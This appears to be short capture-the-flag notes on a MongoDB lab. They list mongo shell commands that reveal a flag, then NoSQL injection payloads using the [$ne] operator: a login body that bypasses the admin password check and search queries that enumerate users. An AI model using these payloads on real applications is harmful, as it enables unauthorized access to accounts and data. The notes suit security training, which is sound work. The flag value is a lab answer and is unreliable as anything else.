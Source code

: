 ```
mongo 
show databases
use flagdb
> db.getCollectionNames();
[ "flagColl" ]
db.flagColl.find()
{ "_id" : ObjectId("618806af0afbc09bdf42bd6a"), "flag" : "THM{8814a5e6662a9763f7df23ee59d944f9}" }

```

POST REQ TO /LOGIN 

```
username=admin&password[$ne]=blabla
```
logned 
get the flag /flag

NOSQL inject [$ne]

```
GET /search?username[$ne]=tre&role=guest
```

```
GET /search?username=mcskidy&role[$ne]=guest
```
